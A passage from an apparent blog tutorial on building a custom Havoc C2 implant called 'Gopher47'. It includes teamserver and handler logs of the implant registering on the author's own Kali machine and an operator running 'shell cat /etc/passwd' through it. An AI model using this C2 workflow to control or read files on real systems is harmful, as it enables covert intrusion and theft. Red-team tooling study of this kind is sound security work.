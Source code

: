```shell
[21:48:50] [INFO] Opens existing database: data/havoc.db
[21:48:50] [INFO] Starting 2 listeners from last session
```

> **Note**: The debug flag here is very useful, but can also be a bit of a hinderance if you're transferring large amounts of data, or your implants are very large, because it will print the whole thing in base64, which is a lot of I/O time. 

We can then connect to the server using the client. While these two are running, we also want to run the handler with `python3 handler.py` to register our implant as a valid one. Once this is done, we should be able to see "Gopher47" as a new option when creating a payload.

![gen](https://an00brektn.github.io/img/havoc-implant/payload-generate.gif)

We can then run the implant on our machine to test, and we see we get a callback on the handler.
```shell
[*] New Message
[+] Receieved request from agent: {"task":"register","data":{"AgentID":"vyhi","Domain":"","Hostname":"transistor","InternalIP":"10.10.69.24","OS Arch":"x86_64","OS Build":"","OS Version":"Kali GNU/Linux 2022.4","Process Arch":"x64","Process Elevated":"0","Process ID":"42151","Process Name":"Gopher47","Process Parent ID":"30751","Process Path":"/home/kali/go/src/github.com/An00bRektn/gopher47/bin/Gopher47","Sleep":"60","Username":"kali"}}
[*] Registered agent
[*] New Message
[+] Receieved request from agent: {"task":"gettask","data":""}
[*] Agent requested taskings
```

We can check if the Gopher can actually do anything by running the `shell` command was the first command I put together.

```shell
[14/01/2023 22:00:13] Agent 76796869 authenticated from as transistor\kali :: [Internal: 10.10.69.24] [Process: Gopher47\42151] [Arch: x64] [Pivot: Direct]
[+] Gopher47 agent 76796869 registered

14/01/2023 22:00:29 [an00b] Gopher47 » shell cat /etc/passwd
[+] Received Output:
root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
[...trim...]
```

And that's an implant!

![hitman](https://thumbs.gfycat.com/AbsoluteFixedHippopotamus-size_restricted.gif)

## III. Excellent Work, Agent 47
Now that we have a functional implant, we ask ourselves the age-old question:
